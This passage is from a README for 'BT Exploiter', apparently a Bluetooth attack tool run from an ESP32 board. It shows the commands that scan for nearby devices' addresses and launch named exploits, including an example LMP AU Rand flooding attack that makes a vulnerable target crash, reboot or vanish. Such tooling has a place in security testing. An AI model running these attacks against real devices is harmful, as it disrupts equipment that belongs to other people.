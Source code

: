 

### Scan target

Before launching the attack, you need to know the `BDAddress` of the target BT device. To facilitate this, BT Exploiter can scan the `BDAddress` of targets nearby by running the following command:

```bash
sudo bin/bt_exploiter --scan
```

If **ESP32** is detected by bt_exploiter and scanning works, then you should get a similar output to the Figure below.

![](./docs/scan_output.png)



### Launch the Attack!

Now it is your turn! Choose an exploit by its name and remember the target `BDAddress` where the exploit needs to be launched. You need to specify both the name of the exploit and the target `BDAddress` as follows to launch the respective attack:

```bash
sudo bin/bt_exploiter --host-port=/dev/ttyUSB1 --target=<target bdaddress> --exploit=<exploit name>
```

The argument  `--target` is your target `BDAddress` and `--host-port` must match with the correct ESP32-WROVER-KIT serial port.

For example, launching the exploit for **LMP AU Rand Flooding** (au_rand_flooding) can be accomplished as follows:

```bash
sudo bin/bt_exploiter --host-port=/dev/ttyUSB1 --target=a4:50:46:59:0c:90 --exploit=au_rand_flooding
```

If the target is vulnerable, then you should get some anomalous behavior from the target (shutdown, reboot, etc) or simply not be able to discover it anymore when scanning for BT targets again. 
